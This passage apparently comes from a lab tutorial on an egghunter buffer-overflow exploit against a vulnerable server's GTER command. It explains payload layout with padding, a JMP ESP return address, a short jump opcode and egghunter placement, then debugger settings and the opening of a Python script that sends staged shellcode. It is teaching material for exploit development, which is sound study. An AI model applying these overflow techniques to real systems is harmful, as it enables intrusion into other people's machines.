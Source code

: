 	)
	```
      * `b'GTER /.:/'`: We are overflowing the buffer of the **GTER** command.
      * `EGGHUNTER`: Remember that there is not enough space after the return address for the EggHunter shellcode. So we need to place it at the beginning of the buffer (after the command instruction!).
      * `b'A' * (143 - len(EGGHUNTER))`We need to overflow up but not including to the return address so we can overwrite it, this can be `A`'s as we used here or the NOP (`\x90`) instruction as used for the **GTER** overflow in ```step 5```. Since we have space taken up by the eggHunter's shellcode we do not want to overshoot our target and must take that into account!
      * `struct.pack('<L', 0x625014dd)`: A `JMP ESP` address, this is one of the ones we had discovered with the mona.py command `!mona jmp -r esp -cp nonull -o` in Immunity Debugger. *Notice* that it differs from the one we used in the **GTER** instruction! This is only done so we can observe the two packets more easily by setting breakpoints on two unique `JMP ESP` instructions.
      * `b'\xe9\x66\xff\xff\xff'`: This is the only `JMP` instruction we use in the **GTER** overflow, this is placed after the return address so once we take control of the thread when the `JMP ESP` instruction is executed and we enter the start of the **GTER** buffer to begin executing the eggHunter Shellcode.
      * `b'C' * (400 - 147 - 4 - 5)`: Final padding (May be omitted)
> [!IMPORTANT]
> Be careful about how you align the shellcode in the stack. As the EggHunter uses the *PUSH* instruction it will corrupt itself if it is too close to the end of the buffer where the stack pointer is pointing to.
>
> ![alt text](Images/Crash-image.png)

#### Debugger Verification and Final Exploitation
1. You now need to set up Immunity Debugger so it allows exceptions to occur.
   1. Open Immunity Debugger.
   2. Click Options, and then *Debug Options* as displayed below.

		<img src="Images/I29.png" width=600>

   3. Access the Exceptions Tab, if nothing is showing click any other tab first, then select the Exceptions tab.

		<img src="Images/I30.png" width=600>

   4. Check All options as shown below (and above!).

		<img src="Images/I30.png" width=600>

2. Organize your exploit code as shown in [exploit5.py](./SourceCode/exploit5.py). Here, the discussion will mainly focus on the order in which we send the payloads.
	```py
	with socket.create_connection((HOST, PORT)) as fd:
		print("Connected...")
		print(fd.recv(1024)) # Get welcome message
		print(fd.recv(1024)) # Get "You are user X" message
		print("Sending shellcode:")
		fd.sendall(PAYLOAD_SHELL)
		print("Shellcode has been staged")
